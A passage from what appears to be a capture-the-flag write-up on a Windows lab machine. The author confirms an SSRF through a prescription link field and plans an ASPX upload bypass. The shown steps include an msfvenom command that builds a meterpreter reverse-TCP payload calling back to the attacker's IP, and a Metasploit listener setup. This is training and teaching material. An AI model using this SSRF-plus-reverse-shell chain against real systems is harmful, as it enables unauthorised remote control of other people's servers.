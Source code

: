 
We now have access to the page.
![Pasted image 20240714174240.png](/images/Pasted image 20240714174240.png){: .normal }


In the prescriptions page we can add an email and a link, when we try to callback our own machine we get a request.
![Pasted image 20240714174235.png](/images/Pasted image 20240714174235.png){: .normal }

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.10.11.238 - - [11/Feb/2024 14:49:41] code 404, message File not found
10.10.11.238 - - [11/Feb/2024 14:49:41] "GET /test HTTP/1.1" 404 -
```

Looks like we can only upload pdf’s.
![Pasted image 20240714174228.png](/images/Pasted image 20240714174228.png){: .normal }


Testing where the file could have been sent using the SSRF, we find that on port 8080 all the reports are kept.
![Pasted image 20240714174223.png](/images/Pasted image 20240714174223.png){: .normal }


When we click on “view report”, we see the following GET request.
```bash
GET /ViewReport.aspx?file=98ed0032-6803-49cd-887c-6d928503ebbf_Redeemer.pdf
```

Perhaps if we are able to bypass the upload page we could get an ASPX reverse shell onto the machine and use our SSRF to execute it. We can start by generating our ASPX payload.
```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.205 LPORT=4444 -f aspx > rev.aspx    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of aspx file: 3688 bytes
```

Start listener in Metasploit.
```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.205
lhost => 10.10.14.205
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.205:4444
```
